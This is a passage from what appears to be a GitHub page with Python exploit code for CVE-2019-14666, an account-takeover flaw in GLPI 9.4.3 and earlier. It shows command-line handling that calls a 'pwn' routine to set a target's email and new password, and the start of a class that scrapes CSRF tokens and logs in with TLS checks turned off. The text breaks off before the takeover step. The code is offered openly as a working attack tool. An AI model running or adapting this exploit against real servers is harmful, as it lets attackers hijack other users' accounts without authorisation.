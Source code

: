```python
    parser.add_argument("--url", help="Target URL", required=True)
    parser.add_argument("--user", help="Username", required=True)
    parser.add_argument("--password", help="Password", required=True)
    parser.add_argument("--email", help="Target email")
    parser.add_argument("--newpass", help="New password")
    
    args = parser.parse_args()
    
    g = GlpiBrowser(args.url, user=args.user, password=args.password)
    
    g.pwn(args.email, args.newpass)
```
# Edited CVE-2019-14666

```python
#!/usr/bin/python
#
#  Description: Exploit for CVE-2019-14666 (GLPI <=9.4.3 account takeover)
#  Author: @xassiz (Tarlogic)
#
import re
import sys
import json
import argparse
import requests
class GlpiBrowser:
    def __init__(self, url, user, password):
        self.url = url
        self.user = user
        self.password = password
        
        self.session = requests.Session()
        self.session.verify = False
        requests.packages.urllib3.disable_warnings()
    
    
    def extract_csrf(self, html):
        return re.findall('name="_glpi_csrf_token" value="([a-f0-9]{32})"', html)[0]
    
    def get_login_data(self):
        r = self.session.get('{0}'.format(self.url), allow_redirects=True)
        
        csrf_token = self.extract_csrf(r.text)
        name_field = re.findall('name="(.*)" id="login_name"', r.text)[0]
        pass_field = re.findall('name="(.*)" id="login_password"', r.text)[0]
        
        return name_field, pass_field, csrf_token
    
    
    def login(self):
        try:
            name_field, pass_field, csrf_token = self.get_login_data()
        except Exception as e:
            print ("[-] Login error: could not retrieve form data")
            sys.exit(1)
        
        data = {
            name_field: self.user, 
            pass_field: self.password,
            "auth": "local",
            "submit": "Post",
            "_glpi_csrf_token": csrf_token
```